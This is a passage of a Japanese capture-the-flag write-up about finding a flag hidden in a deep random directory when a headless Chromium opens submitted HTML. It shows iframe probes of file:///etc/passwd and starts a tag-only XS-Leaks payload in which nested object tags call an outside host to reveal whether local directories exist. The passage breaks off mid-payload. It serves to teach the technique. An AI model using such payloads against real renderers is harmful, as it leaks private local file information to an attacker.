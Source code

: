 ```sh
done

echo 'ctf4b{*****REDACTED*****}' > "${current_path}flag.txt"
```
`/var/www/htmls/ctf/`以下にランダムなa-z0-9の1文字のディレクトリを複数回作成して、その中にフラグが書かれた`flag.txt`を作成している。  
このディレクトリを特定すればよいとわかるが、最低でも深さが15あるので総当たりは難しい。  
ChromiumでHTMLファイルを開くことでディレクトリ名を特定する必要がありそうだ。  
ここで、以下のようなHTMLを考える。  
```html
<html>
    <body>
        <iframe src="file:///etc/"></iframe>
        <iframe src="file:///etc/passwd"></iframe>
        <br>
        <iframe src="file:///omg/"></iframe>
        <iframe src="file:///omg/nofile"></iframe>
    </body>
</html>
```
このHTMLをtest1.htmlとし、Chromiumで開くと以下の通りとなる。  
![test1.png](images/test1.png)  
存在するディレクトリやファイルはその内容が表示され、それ以外はエラーページとなっている。  
どうにかしてこの差異を検出して、外部に送信できればディレクトリの存在の有無が特定できると気づく。  
JavaScriptは利用できないのですべてをタグで行う必要がある。  
ところで、このようにサイドチャネル様に別のサイト内のデータやローカルの情報などを明らかにすることを[Cross-Site Leaks (XS-Leaks)](https://xsleaks.dev/)と呼ぶ。  
また、その情報を得るためのヒントをCross-Site Oraclesまたは単にオラクルと言う。  
XS-Leaksの[テクニック](https://book.hacktricks.xyz/pentesting-web/xs-search)を探すと、[objectタグのみを使ったもの](https://book.hacktricks.xyz/pentesting-web/xs-search#onload-onerror)があるようだ。  
以下のHTMLを考える。  
```html
<html>
    <body>
        <object data="file:///etc/">
            <object data="http://example.com?etc"></object>
```